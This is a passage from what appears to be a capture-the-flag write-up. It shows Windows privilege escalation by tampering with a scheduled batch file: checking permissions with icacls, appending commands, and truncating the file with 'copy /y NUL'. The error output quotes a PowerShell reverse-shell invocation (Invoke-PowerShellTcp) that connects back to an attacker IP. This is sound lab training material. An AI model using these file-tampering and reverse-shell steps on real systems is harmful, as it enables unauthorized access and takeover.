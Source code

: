         Directory: C:\users\decoder
    
    Mode                LastWriteTime     Length Name                              
    ----                -------------     ------ ----                              
    -a---        08/05/2018     23:54         77 clean.bat   
    

`icacls` shows it more cleanly:

    
    
    PS C:\users\decoder> icacls clean.bat
    clean.bat Everyone:(M)
              NT AUTHORITY\SYSTEM:(I)(F)
              FIGHTER\decoder:(I)(F)
              BUILTIN\Administrators:(I)(F)
    

That means I can’t just overwrite it (this shell doesn’t return errors, but it
doesn’t work):

    
    
    PS C:\users\decoder> echo "ping 10.10.14.6" > clean.bat
    Invoke-PowerShellTcp : Access to the path 'C:\users\decoder\clean.bat' is 
    denied.
    At line:127 char:1
    + Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.6 -Port 443
    + ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
        + CategoryInfo          : NotSpecified: (:) [Write-Error], WriteErrorExcep 
       tion
        + FullyQualifiedErrorId : Microsoft.PowerShell.Commands.WriteErrorExceptio 
       n,Invoke-PowerShellTcp
    

But I can append to it:

    
    
    PS C:\users\decoder> echo "ping 10.10.14.6" >> clean.bat
    PS C:\users\decoder> cat clean.bat 
    @echo off 
    del /q /s c:\users\decoder\appdata\local\TEMP\*.tmp 
    exit 
      
    ping 10.10.14.6
    

Still, even if that is being run, with the `exit`, nothing I add will be run.

#### Truncate

I can’t actually copy another file on top of the existing file, but for some
reason, in `cmd`, I can copy `NUL` onto a file and it handles it like an
append:

    
    
    PS C:\users\decoder> cmd /c copy /y NUL clean.bat 
            1 file(s) copied.
    PS C:\users\decoder> ls clean.bat
    